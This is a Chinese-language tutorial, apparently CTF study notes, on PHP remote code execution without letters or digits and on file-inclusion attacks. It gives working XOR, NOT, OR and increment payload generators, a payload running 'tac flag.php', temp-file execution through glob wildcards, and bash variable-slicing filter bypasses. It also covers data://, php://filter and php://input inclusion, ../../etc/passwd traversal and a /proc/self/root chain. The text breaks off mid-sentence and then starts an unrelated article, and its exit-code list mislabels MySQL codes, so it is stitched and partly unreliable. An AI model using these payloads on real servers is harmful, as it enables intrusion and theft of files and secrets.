利用自增构造出phpinfo();

```php
$_=[];
$_=''.$_;
$_=$_['!'==' '];
$___=$_;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$___();
```

由于存在 `+` 符号，故而需要进行 URL 编码然后再传入



成功执行

那我们构造一下

### 异或构造

这也算是最简单的方法了，在PHP中异或的规则如下



在PHP中，两个字符串执行异或操作以后，得到的还是一个字符串。


所以我们的思路就是通过两个非数字字母字符通过异或后得到一个字母，然后不断获取字母最后拼接成我们想要的函数

我们试一下


可以看到这里异或就得出了字母A

然后这里的话找了师傅的一个脚本

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)^urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);

```

这个脚本可以找出两两字符异或后的所有可见字符的结果，然后写入一个文件中

```python
# -*- coding: utf-8 -*-

def action(arg):
    s1=""
    s2=""
    for i in arg:
        f=open("xor_rce.txt","r")
        while True:
            t=f.readline()#read one line at a time
            if t=="":#if the end of file is reached
                break
            if t[0]==i:
                print(i)
                s1+=t[2:5]
                s2+=t[6:9]
                break
        f.close()
    output="(\""+s1+"\"^\""+s2+"\")"
    print(output)

while True:
    param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
    print(param)

```

输入你想要构造的函数名和要执行的命令即可生成最终的 Payload，我们接下来试一下



构造出phpinfo的异或结果，然后传入




```
payload
?c=("%0b%08%0b%09%0e%06%0f"^"%7b%60%7b%60%60%60%60")();
```

为了更好的理解，我们去调试一下



可以看到这里的话是遍历我们传入的需要异或的字符串的每个字符，然后将可以异或出来该字符的两个字符分别放在s1和s2，也就是我们payload里面异或符号两边的结果。

放一个yu22x师傅的脚本

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

### 取反构造

这个的话其实和异或是一样的，通过位运算取反符号去取得需要的字符

利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`

```
echo ~('瞰'{1});    // a
echo ~('和'{2});    // s
echo ~('和'{2});    // s
echo ~('的'{1});    // e
echo ~('半'{1});    // r
echo ~('始'{2});    // t
```

PHP5下不能直接`"瞰"{2}`，这是PHP7下的语法

我们举个例子

使用 `帅[1]` 的结果是 `\xb8` 经过取反之后得到字母 `G`。

具体取反过程如下:

- 先将十六进制 `b8` 转为二进制。
- 再将 `b8` 的二进制进行按位取反，0 变成 1,1 变成 0。
- 最后再将得到的二进制转为十进制与 `ASCII` 表中进行比对，最终找到字母 `G`。

然后我这里找了一个脚本可以获取取反结果

```php
<?php 
$a=urlencode(~'phpinfo');
echo $a;
echo '</br>';
$b = ~urldecode($a);
echo $b;
//%8F%97%8F%96%91%99%90</br>phpinfo
```

然后我们利用php7的特性传入payload

```
?c=(~%8F%97%8F%96%91%99%90)();
```



```php
<?php

$system="system";

$command="tac flag.php";

echo '(~'.urlencode(~$system).')(~'.urlencode(~$command).');';
?>
```


### 或构造

在前面异或绕过中我们说了，PHP 中两个字符串异或之后得到的还是一个字符串。那么或运算原理也是一样，使用两个不在正则匹配范围内的非字母非数字的字符进行或运算，从而得到我们想要的字符串。

直接放脚本了，很简单

```py
import re

contents = ''
preg = '[a-z]|[0-9]'#匹配题目正则

for i in range(256):
    for j in range(256):
        if not (re.match(preg,chr(i),re.I) or re.match(preg,chr(j),re.I)):
            k = i | j
            if 32 <= k <= 126:
                a = '%' + hex(i)[2:].zfill(2)
                b = '%' + hex(j)[2:].zfill(2)
                contents += (chr(k) + ' ' + a + ' ' + b + '\n')
f = open('rce_or.txt','w')
f.write(contents)

while True:
    payload1 = ''
    payload2 = ''
    code = input("请输入想要或运算的字符串:\n")
    for i in code:
        f = open('rce_or.txt')
        lines = f.readlines()
        for line in lines:
            if i ==line[0]:
                payload1 = payload1 + line[2:5]
                payload2 = payload2 + line[6:9]
                break
    payload = '("'+payload1+'"|"'+payload2+'")'
    print("payload:" + payload) 
```

本地测试一下



然后传入payload




也是可以打通的

以上就是无数字字母的一些基础的姿势，其实还是围绕着利用php的特性去构造字符从而构造函数去进行命令执行的，那我们再深入了解一下

## eval中无数字字母RCE(冲破限制)

参考的还是p牛的文章，大佬的文章写的深度确实很不错

[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

如果我们的题目代码如下

```php
<?php
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>35){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
```

对比之前的无数字字母的webshell，这里明显多了两个限制:

1. 对传入参数的长度进行了限制
2. 过滤了_和$

其实本质上第二个限制对我们的大部分payload是造不成影响的，但是先别急，我们先看看在取反和异或中p神是怎么做的





首先我们先要了解一下php7和php5的特性

### PHP 5 和 PHP 7 的区别

1）在 PHP 5 中，`assert()`是一个函数，我们可以用`$_=assert;$_()`这样的形式来实现代码的动态执行。但是在 PHP 7 中，`assert()`变成了一个和`eval()`一样的语言结构，不再支持上面那种调用方法。（但是好像在 PHP 7.0.12 下还能这样调用）

（2）PHP5中，是不支持`($a)()`这种调用方法的，但在 PHP 7 中支持这种调用方法，因此支持这么写`('phpinfo')();`

因为我的是php7，这就导致了我们上面的异或，或和取反的方法是可行的，不过p牛是用php5来进行测试的，但是明显在php5下这两个限制条件对上面的payload起到了很大的限制作用

摘录一下p牛的话：

大部分语言都不会是单纯的逻辑语言，一门全功能的语言必然需要和操作系统进行交互。操作系统里包含的最重要的两个功能就是“shell（系统命令）”和“文件系统”，很多木马与远控其实也只实现了这两个功能。

PHP自然也能够和操作系统进行交互，“反引号”就是PHP中最简单的执行shell的方法。那么，在使用PHP无法解决问题的情况下，为何不考虑用“反引号”+“shell”的方式来getshell呢？

### PHP5+shell打破限制

因为反引号不属于“字母”、“数字”，所以我们可以执行系统命令，但问题来了：如何利用无字母、数字、`$`的系统命令来getshell？

其实这里我第一想法就是在shell下的`.`去执行脚本文件，刚好和p牛的相似。这得益于之前在ctfshow做的一道题，只不过那道题的wp写的迷迷糊糊，这次恰恰可以完整的学明白这个知识点

两个有趣的Linux shell知识点：

1. shel下可以利用`.`来执行任意脚本
2. Linux文件名可以用glob通配符代替

先看第一点，`.` 命令（或者 `source` 命令）和source一样，就是可以利用当前的shell去执行一个文件中的命令，例如bash，那么.file的话就是利用bash去执行file文件中的命令

注意一个重要的点，在 Linux 和类 Unix 操作系统中，文件和目录有三种权限，分别是读（R）、写（W）、执行（X）。用`.`去执行文件是不需要文件有X权限的，那么如果我们有一个可控的文件，是不是就可以直接通过`.`去执行了，接下来就来到了我们第二个问题，在无数字字母的情况下如何得到文件名？

这就涉及到第二点了，如果我们通过post向目标服务器发送一个上传文件的post包，此时php会将我们上传的文件保存在临时文件夹下，Linux临时文件主要存储在`/tmp/`目录下，格式通常是（`/tmp/php[6个随机字符]`），这时候我们就可以利用到Linux下的glob通配符

| *    | 匹配任何字符串／文本，包括空字符串；*代表任意字符（0个或多个） |
| ---- | ------------------------------------------------------------ |
| ?    | 匹配任何一个字符（不在括号内时）?代表任意1个字符             |

那么我们的文件`/tmp/phpXXXXXX`就可以表示为`/???/?????????`或者`/*/?????????`等方式，我们试着去执行一下



为什么执行不了呢，因为能够匹配上`/???/?????????`的文件有很多，例如我们ls列出来的文件都是符合条件的。此时系统并不知道应该执行哪个文件，又或者说系统从第一个匹配的文件开始执行的时候就会出现错误，这时候又该如何破局？

### 深入理解glob通配符

在看完p牛贴的[linux文档](http://man7.org/linux/man-pages/man7/glob.7.html)后才知道，原来上面的[]通配符的姿势有这么多

| [abcd] | 匹配指定字符范围内的任意单个字符 |
| ------ | -------------------------------- |
| [a-z]  | 表示范围a到z，表示范围的意思     |

- 我们想要排除字符，就可以使用表达式` [!...]`或者`[^...]`，例如`[!]a-]`意思就是匹配除了`]`,`a`,`-`外的任意单一字符
- 我们想要匹配字符，就可以使用表达式`[abcd]`,例如`[[?*\]`意思是匹 配四个字符`[`,`?`,`*`,`\`。因为这些都是shell的一部分，将他们括在括号中的时候，括号内的字符只表示他们自己
- 我们想要匹配特定范围内的字符，就可以用表达式`[a-z]`，两个字符用`-`分割表示一个范围，例如[a-Fa-f0-9]意思是匹配`ABCDEFabcdef0123456789`等字符

试一下呗，例如前面的bin目录的文件，我们排除掉他的话



如果我们只匹配b开头的文件目录的话



**所有文件名都是小写，只有PHP生成的临时文件包含大写字母。**

但是如果我们想要用方括号去匹配的字符是大写字母呢，翻阅ASCII码表就可以看到，大写字母是位于`@`和`[`之间的/。那么，我们可以利用`[@-[]`来表示大写字母

那么我们就可以构造poc执行任意命令

在system中可以传入

```php
.%20/???/????????[@-[]
```

在eval中可以传入

```php
?><?=`. /???/????????[@-[]`;?>
```

### 构造poc执行rce

当然，php生成临时文件名是随机的，最后一个字符不一定是大写字母，所以我们还是得多尝试几次，例如我们拿ctfshow的web56进行讲解



这道题因为过滤了括号，以至于我们的取反异或这些方法都行不通，我们用新的方法试一下

首先我们构造一个post请求包上传一个命令脚本

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://123.56.166.154:10004/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

然后编辑我们的命令脚本

```php
#!/bin/sh
ls
```

上传文件后抓包传参通过`.`执行临时文件



成功执行！

## eval中无数字字母RCE(扩展)

这起源于我在做ctfshow里的web57找到的一个思路，题目提示flag在36.php，同时过滤了点号，执行语句也比较特殊，这里主要是为了扩展一下构造字符的方法



其实这道题的思路就是利用利用linux的$(())构造出数字

#### 利用linux的$(())构造数字

实现步骤

通过`$(())`操作构造出36： `$(())` ：代表做一次运算，因为里面为空，也表示值为0

`$(( ~$(()) )) `：对0作取反运算，值为-1

`$(( $((~$(()))) $((~$(()))) ))`： -1-1，也就是(-1)+(-1)为-2，所以值为-2

`$(( ~$(( $((~$(()))) $((~$(()))) )) )) `：再对-2做一次取反得到1，所以值为1

故我们在`$(( ~$(( )) ))`里面放37个`$((~$(())))`，得到-37，取反即可得到36

```python 
get_reverse_number = "$((~$(({}))))" # 取反操作
negative_one = "$((~$(())))"        # -1
payload = get_reverse_number.format(negative_one*37)
print(payload)
```

补充一个姿势，这几天做题碰到了就积累下来了

## 环境变量绕过

首先我们要先了解到什么是环境变量

Bash内置变量是Bash shell中预定义的特殊变量。用于存储系统信息、脚本参数、环境状态等。这些变量由 Bash 自动设置和管理，用户可以直接使用它们来获取相关信息或控制脚本行为。而环境变量就是Bash内置变量的一种

**脚本参数相关变量**

- **`$0`**：当前脚本的名称。
- **`$1`, `$2`, ..., `$9`**：脚本的第 1 到第 9 个参数。(结果为空)
- **`$#`**：传递给脚本的参数个数。(结果为0)
- **`$@`**：所有传递给脚本的参数（每个参数作为独立的字符串）。
- **`$\*`**：所有传递给脚本的参数（所有参数作为一个整体字符串）。
- **`$?`**：上一个命令的退出状态（0 表示成功，非 0 表示失败）。

**2. 进程相关变量**

- **`$$`**：当前 shell 进程的 PID（进程 ID）。
- **`$!`**：最后一个后台运行的进程的 PID。
- **`$BASHPID`**：当前 Bash 进程的 PID（与 `$$` 类似，但在子 shell 中会不同）。

**3. 环境相关变量**

- **`$HOME`**：当前用户的主目录路径。
- **`$PWD`**：当前工作目录的路径。
- **`$OLDPWD`**：上一次工作目录的路径。
- **`$USER`**：当前用户名。
- **`$SHELL`**：当前 shell 的路径。
- **`$PATH`**：命令搜索路径（以冒号分隔的目录列表）。
- **`$LANG`**：当前语言环境设置。

**4. 脚本运行相关变量**

- **`$SECONDS`**：脚本已经运行的秒数。
- **`$RANDOM`**：返回一个随机整数（范围是 0 到 32767）。
- **`$LINENO`**：当前脚本中的行号。

**5. IFS（Internal Field Separator）**

- **`$IFS`**：输入字段分隔符，用于控制 Bash 如何拆分字符串（默认是空格、制表符和换行符）。

**6. 其他常用变量**

- **`$BASH`**：当前 Bash 可执行文件的路径。
- **`$BASH_VERSION`**：当前 Bash 的版本号。
- **`$HOSTNAME`**：当前主机名。
- **`$UID`**：当前用户的用户 ID。

通过以上变量其实我们就可以知道一些绕过就是跟变量有关的例如空格绕过就是利用了$IFS的作用

### $PATH环境变量切割构造字符

首先使用echo去输出我们的环境变量，然后从环境变量的内容中找出我们需要的字符去进行拼接

```
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
root@dkhkv28T7ijUp1amAVjh:/www/wwwroot7# echo ${PATH:0:10}
/usr/local
这里可以看到我们是可以通过范围去取用环境变量中的单个字符然后进行拼接的
```

### $PWD环境变量切割构造字符

```
root@dkhkv28T7ijUp1amAVjh:/var/www/html# echo ${PWD}
/var/www/html
root@dkhkv28T7ijUp1amAVjh:/var/www/html# echo ${PWD:0:1}
/
root@dkhkv28T7ijUp1amAVjh:/var/www/html# echo ${PWD:0:3}
/va
也是可以通过切割去获取字符的
```

但是如果碰到题目过滤了数字，就需要另外构造了，例如linux可以利用`~`获得变量的最后几位（从最后开始获取），使用取反号时，任何字母等同于数字0。

例如我们为了构造读取文件的命令nl

```
root@dkhkv28T7ijUp1amAVjh:/var/www/html# echo ${PWD:~A}
l
root@dkhkv28T7ijUp1amAVjh:/var/www/html# echo ${PATH:~A}
n
```

这里可以看到`${PATH:~A}${PWD:~A}`表示的就是`PATH`的最后一个字母和`PWD`的最后一个字母，组合起来就是nl。

那我们如果读取flag.php的话就是

```
${PATH:~A}${PWD:~A} flag.php
```

相当于：`nl flag.php`

这里借师傅的一张图，放一些常用的构造字符的方法


这里的话可以根据不同的变量进行构造，构造出想要的字符，例如我们希望使用/bin/cat去读取文件，那么我们可以构造/???/??t或者/???/?a?

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}}
/???/??t
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}?
/???/?a?
```

又或者我们想要构造/bin/bash64

```
${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM}
RANDOM是一个随机数变量，返回一个随机整数（范围是 0 到 32767）。然后加上#号的话表示的是该变量的值的长度，例如${#1234}的结果就是4
```

这里积累了一个奇妙的姿势，就是通过变量返回数字

利用`$?`，获取上一条命令执行结束后的返回值，`0`代表成功，`非0`代表失败。非0返回值的命令如下

```
"OS error code   1:  Operation not permitted"
"OS error code   2:  No such file or directory"
"OS error code   3:  No such process"
"OS error code   4:  Interrupted system call"
"OS error code   5:  Input/output error"
"OS error code   6:  No such device or address"
"OS error code   7:  Argument list too long"
"OS error code   8:  Exec format error"
"OS error code   9:  Bad file descriptor"
"OS error code  10:  No child processes"
"OS error code  11:  Resource temporarily unavailable"
"OS error code  12:  Cannot allocate memory"
"OS error code  13:  Permission denied"
"OS error code  14:  Bad address"
"OS error code  15:  Block device required"
"OS error code  16:  Device or resource busy"
"OS error code  17:  File exists"
"OS error code  18:  Invalid cross-device link"
"OS error code  19:  No such device"
"OS error code  20:  Not a directory"
"OS error code  21:  Is a directory"
"OS error code  22:  Invalid argument"
"OS error code  23:  Too many open files in system"
"OS error code  24:  Too many open files"
"OS error code  25:  Inappropriate ioctl for device"
"OS error code  26:  Text file busy"
"OS error code  27:  File too large"
"OS error code  28:  No space left on device"
"OS error code  29:  Illegal seek"
"OS error code  30:  Read-only file system"
"OS error code  31:  Too many links"
"OS error code  32:  Broken pipe"
"OS error code  33:  Numerical argument out of domain"
"OS error code  34:  Numerical result out of range"
"OS error code  35:  Resource deadlock avoided"
"OS error code  36:  File name too long"
"OS error code  37:  No locks available"
"OS error code  38:  Function not implemented"
"OS error code  39:  Directory not empty"
"OS error code  40:  Too many levels of symbolic links"
"OS error code  42:  No message of desired type"
"OS error code  43:  Identifier removed"
"OS error code  44:  Channel number out of range"
"OS error code  45:  Level 2 not synchronized"
"OS error code  46:  Level 3 halted"
"OS error code  47:  Level 3 reset"
"OS error code  48:  Link number out of range"
"OS error code  49:  Protocol driver not attached"
"OS error code  50:  No CSI structure available"
"OS error code  51:  Level 2 halted"
"OS error code  52:  Invalid exchange"
"OS error code  53:  Invalid request descriptor"
"OS error code  54:  Exchange full"
"OS error code  55:  No anode"
"OS error code  56:  Invalid request code"
"OS error code  57:  Invalid slot"
"OS error code  59:  Bad font file format"
"OS error code  60:  Device not a stream"
"OS error code  61:  No data available"
"OS error code  62:  Timer expired"
"OS error code  63:  Out of streams resources"
"OS error code  64:  Machine is not on the network"
"OS error code  65:  Package not installed"
"OS error code  66:  Object is remote"
"OS error code  67:  Link has been severed"
"OS error code  68:  Advertise error"
"OS error code  69:  Srmount error"
"OS error code  70:  Communication error on send"
"OS error code  71:  Protocol error"
"OS error code  72:  Multihop attempted"
"OS error code  73:  RFS specific error"
"OS error code  74:  Bad message"
"OS error code  75:  Value too large for defined data type"
"OS error code  76:  Name not unique on network"
"OS error code  77:  File descriptor in bad state"
"OS error code  78:  Remote address changed"
"OS error code  79:  Can not access a needed shared library"
"OS error code  80:  Accessing a corrupted shared library"
"OS error code  81:  .lib section in a.out corrupted"
"OS error code  82:  Attempting to link in too many shared libraries"
"OS error code  83:  Cannot exec a shared library directly"
"OS error code  84:  Invalid or incomplete multibyte or wide character"
"OS error code  85:  Interrupted system call should be restarted"
"OS error code  86:  Streams pipe error"
"OS error code  87:  Too many users"
"OS error code  88:  Socket operation on non-socket"
"OS error code  89:  Destination address required"
"OS error code  90:  Message too long"
"OS error code  91:  Protocol wrong type for socket"
"OS error code  92:  Protocol not available"
"OS error code  93:  Protocol not supported"
"OS error code  94:  Socket type not supported"
"OS error code  95:  Operation not supported"
"OS error code  96:  Protocol family not supported"
"OS error code  97:  Address family not supported by protocol"
"OS error code  98:  Address already in use"
"OS error code  99:  Cannot assign requested address"
"OS error code 100:  Network is down"
"OS error code 101:  Network is unreachable"
"OS error code 102:  Network dropped connection on reset"
"OS error code 103:  Software caused connection abort"
"OS error code 104:  Connection reset by peer"
"OS error code 105:  No buffer space available"
"OS error code 106:  Transport endpoint is already connected"
"OS error code 107:  Transport endpoint is not connected"
"OS error code 108:  Cannot send after transport endpoint shutdown"
"OS error code 109:  Too many references: cannot splice"
"OS error code 110:  Connection timed out"
"OS error code 111:  Connection refused"
"OS error code 112:  Host is down"
"OS error code 113:  No route to host"
"OS error code 114:  Operation already in progress"
"OS error code 115:  Operation now in progress"
"OS error code 116:  Stale NFS file handle"
"OS error code 117:  Structure needs cleaning"
"OS error code 118:  Not a XENIX named type file"
"OS error code 119:  No XENIX semaphores available"
"OS error code 120:  Is a named type file"
"OS error code 121:  Remote I/O error"
"OS error code 122:  Disk quota exceeded"
"OS error code 123:  No medium found"
"OS error code 124:  Wrong medium type"
"OS error code 125:  Operation canceled"
"OS error code 126:  Required key not available"
"OS error code 127:  Key has expired"
"OS error code 128:  Key has been revoked"
"OS error code 129:  Key was rejected by service"
"OS error code 130:  Owner died"
"OS error code 131:  State not recoverable"
"MySQL error code 132: Old database file"
"MySQL error code 133: No record read before update"
"MySQL error code 134: Record was already deleted (or record file crashed)"
"MySQL error code 135: No more room in record file"
"MySQL error code 136: No more room in index file"
"MySQL error code 137: No more records (read after end of file)"
"MySQL error code 138: Unsupported extension used for table"
"MySQL error code 139: Too big row"
"MySQL error code 140: Wrong create options"
"MySQL error code 141: Duplicate unique key or constraint on write or update"
"MySQL error code 142: Unknown character set used"
"MySQL error code 143: Conflicting table definitions in sub-tables of MERGE table"
"MySQL error code 144: Table is crashed and last repair failed"
"MySQL error code 145: Table was marked as crashed and should be repaired"
"MySQL error code 146: Lock timed out; Retry transaction"
"MySQL error code 147: Lock table is full;  Restart program with a larger locktable"
"MySQL error code 148: Updates are not allowed under a read only transactions"
"MySQL error code 149: Lock deadlock; Retry transaction"
"MySQL error code 150: Foreign key constraint is incorrectly formed"
"MySQL error code 151: Cannot add a child row"
"MySQL error code 152: Cannot delete a parent row"
```

这种情况适用于我们平时想通过构造数字但是没什么思路的时候，但感觉这是有点偏的一个思路

### 自定义环境变量绕过

这是一个比较常见的姿势了，当我们的环境禁用了很多命令的时候可以利用这个去桡骨

```
a=l;b=s;$a$b
```

本地测试一下

```
root@VM-16-12-ubuntu:/# ls
bin   data  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev   home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
root@VM-16-12-ubuntu:/# a=l;b=s;$a$b
bin   data  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev   home  lib32  libx32  media       opt  root  sbin  srv   tmp  var
```

说明这种拼接方式是可以的，但是目前限制条件我还没研究到，后面再补上

## 长度限制RCE

### 七字符

假如此时有代码

```php
<?php
if(strlen($_GET[1])<8){
     echo shell_exec($_GET[1]);
}
?>
```

限制8字符以内，这时候该怎么做呢？

第一个是重定向符号`>`，l>c会将

# 文件包含姿势

漏洞产生条件

如果文件包含函数没有经过严格的过滤或者定义，并且参数可以被用户控制，这样就有可能包含恶意的文件。

PHP文件包含函数有以下四种：

- include
- inclued_once
- require
- require_once

`require()/require_once()`：如果在包含过程中有错，那么直接退出，不执行进一步操作。
`include()/include_once()`: 如果在包含过程中出错，只会发出警告

加上后缀_once的作用区别就是：如果文件已经包含过了，那么不会再次包含

## 无限制本地文件包含

include($a)就是没有为包含文件指定特定的前缀或扩展名

**include函数**就是包含文件的函数，这里的话会把$a的内容包含进来

举个例子，首先我们先创建一个1.php

```php
<?php
if(isset($_GET['a'])){
    $a = $_GET['a'];
    include($a);
}else {
    highlight_file(__FILE__);
}
```

然后创建一个2.php

```php
<?php
	phpinfo();
	?>
```

接着对参数a传入2.php就会执行phpinfo函数



换成别的文件类型也是一样的，例如我把后缀换成jpg



可以看出**，include()函数并不在意被包含的文件是什么类型，只要有php代码，都会被解析出来**。

所以我们可以把参数指向的文件内容嵌入到其中就可以使得代码成功解析，达到一个rce的效果

我们可以用data伪协议

### data伪协议文件包含

使用的条件:

allow_url_fopen : on 

allow_url_include :on



data:// 是一个流封装器（stream wrapper），它允许你读取或写入数据作为文件流，而不是从实际的磁盘文件中，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行

我们拿刚刚的试一下

payload

```
?a=data://text/plain,<?php phpinfo();?>
解释一下
data:：这是数据 URL 的前缀，告诉浏览器或应用程序后续的数据是以数据方式嵌入的，而不是指向外部资源。
text/plain：这是 MIME 类型，表示数据的格式。在这个例子中，text/plain 表示数据是普通文本。MIME 类型用于告知接收端如何处理数据。
<?php phpinfo();?>：这是实际的数据内容。在这里，这是一个 PHP 代码片段，它调用了 phpinfo() 函数。该函数用于输出有关当前 PHP 环境和配置的详细信息，包括 PHP 版本、加载的扩展、服务器信息、PHP 配置选项等。
```



这里没执行成功是因为php配置的问题

data协议使用的条件:allow_url_fopen:on allow_url_include :on

改一下php.ini文件就可以了



可以看到我们传入的代码被正常解析了，另外用base64编码也是可以的

```
?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
```

### filter协议文件包含

使用条件：

allow_url_include = On

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。 这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

简单通俗的说，这是一个中间件，在读入或写入数据的时候对数据进行处理后输出的一个过程。

**php://filter可以获取指定文件源码。当它与包含函数结合时，php://filter流会被当作php文件执行**。我们试一下对2.php文件进行包含

```
payload
?a=php://filter/resource=2.php
```



这时候可以看到已经成功执行了里面的phpinfo()函数。

但是我们一般也可以对其进行编码，让其不执行。从而导致任意文件读取。

例如我们对刚刚的2.php进行读取



payload

```
?a=php://filter/read=convert.base64-encode/resource=2.php
```

`convert.base64-encode` 表示将数据进行 Base64 编码。

`resource=2.php`：这部分指定了要处理的资源

但是这里的话需要注意，filter伪协议不能搭配我们的通配符去使用，对于 `php://filter` 这种用于数据过滤和流处理的伪协议，一般不支持通配符操作。

### input协议文件包含

php://input 是个可以访问请求的原始数据的只读流。可以接收post请求作为输入流的输入，将请求作为PHP代码的输入传递给目标变量，以达到以post 的形式进行输入的目的。

所以我们可以对参数传入php://input，然后post传入PHP恶意代码

另外我们也可以通过文件包含去读取文件内容

### file协议文件包含

之前就知道file协议是可以用的，但是其实file协议读取到的文件中的php代码也是可以被解析的

### 获取敏感文件

例如

```
?file=../../../../etc/passwd
```

我们试着去读取一个文件



这里我把3.txt放在了1.php的上一级目录中，这时候也是可以读到的

## 有限制本地文件包含漏洞

**include($c.".php")**文件包含是代码中为包含文件指定了特定的前缀或者拓展名，这时候我们就需要对扩展名进行过滤绕过

这行代码的作用是将一个PHP文件的内容包含（或插入）到当前执行的脚本中。这里$c 是一个变量，它的值会被附加到字符串 “.php” 之前，从而构成要包含文件的完整路径（或至少是文件名，如果文件位于当前工作目录中）

例如我们传入test，那么实际上就会包含并执行test.php的文件，我们试一下

先在web目录中创建一个2.php文件

```
<?php phpinfo();?>
```

然后传入2



出来了，证明猜想是对的

那这时候怎么绕过呢?

常见的过滤绕过方式有三种：

### %00截断文件包含

利用条件

这个漏洞的使用必须满足如下条件

- magic_quotes_gpc=off
- PHP版本低于5.3.4

跟之前做的那个文件上传的00截断是一样的，就是把后缀名给截断掉，然后就可以像正常的无限制本地包含一样去进行

### 路径长度截断文件包含

操作系统存在着最大路径长度的限制。可以输入超过最大路劲长度的目录，这样系统就会将后面的路劲丢弃，导致拓展名截断。

- Windows下最大路径长度为256B
- Linux下最大路径长度为4096B

但是这个感觉比较麻烦

### 点号截断文件包含

漏洞利用条件

点号截断包含**只使用与Windows系统**，点号的长度大于256B的时候，就可以造成拓展名截断

另外的话我们讲一下关于data伪协议在这里面的作用

**data://text/plain, 这样就相当于执行了php语句, .php 因为前面的php语句已经闭合了**，所以后面的.php会直接显示在屏幕上不会对传入的代码造成影响

### require_once 绕过不能重复包含文件的限制

php的文件包含机制是将已经包含的文件与文件的真实路径放进哈希表中，如果代码中已经执行过require_once('1.php')，这个已经包含的文件就不能再次require_once了，那我们应该如何让php认为我们传入的文件名不在哈希表中，又可以让php能找到这个文件，读取到内容呢？

在这里有个小知识点，`/proc/self`指向当前进程的`/proc/pid/`，`/proc/self/root/`是指向`/`的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过，例如payload

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/1.php
```

接下来我们仔细分析下，这里就是关于我们上面所说的路径的解析，也就是路径长度截断文件包含

简单来说，在检查传入的文件的解析过程中，是从后往前去匹配的，也就是递归机制，递归机制是从后往前，`/var/www/html/1.php -> /var/www/html -> /var/www`。

而这个递归调用是`tsrm_realpath_r`去执行的，`tsrm_realpath_r`是用来解析真实路径的

还有一个相关的函数php_sys_lstat

php_sys_lstat()是用来获取一些文件相关的信息，成功执行时，返回0。失败返回-1，并且会设置`errno`，因为之前符号链接过多，所以`errno`就都是`ELOOP`，符号链接的循环数量真正取决于`SYMLOOP_MAX`，这是个`runtime-value`，它的值不能小于`_POSIX_SYMLOOP_MAX`。

所以一大堆`/proc/self/root`拼一起，从后往前倒，递归调用`tsrm_real_path_r`，直到`php_sys_lstat`返回`0`，即成功。

所以在我们的payload中在/var/www/html/1.php前面的软链接均不会生效，且由于超过了长度限制会被截断，最后只返回/var/www/html/1.php的结果

## 日志文件包含

### 中间件日志文件包含

服务器的中间件都会有日志记录的功能，如果开启了日志记录功能，用户访问的日志就会存储到不同服务的相关文件。

